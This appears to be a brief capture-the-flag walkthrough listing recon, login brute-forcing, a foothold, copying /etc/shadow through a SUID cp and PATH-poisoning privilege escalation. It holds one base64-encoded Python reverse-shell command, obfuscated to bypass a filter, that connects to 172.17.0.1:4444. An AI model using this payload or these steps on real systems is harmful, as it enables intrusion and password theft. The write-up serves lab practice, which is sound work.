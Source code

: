 # Walkthrough
## Recon
Navigate to ftp, grab wordlist

## Enum
Fuzz/bruteforce login for access to intern account

## Foothold 
Reverse shell via the terminal. Bypass the filter

###### Shell command
echo "cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjE3Mi4xNy4wLjEiLDQ0NDQpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTsgb3MuZHVwMihzLmZpbGVubygpLDIpO3A9c3VicHJvY2Vzcy5jYWxsKFsiL2Jpbi9zaCIsIi1pIl0pOyc=" | base64 -d | sh

## Lateral Move
Manager own SUID cp. cp the /etc/shadow file and crack hash with provided wordlist

## Priv esc
Path poison runme

# Feast of eternal glory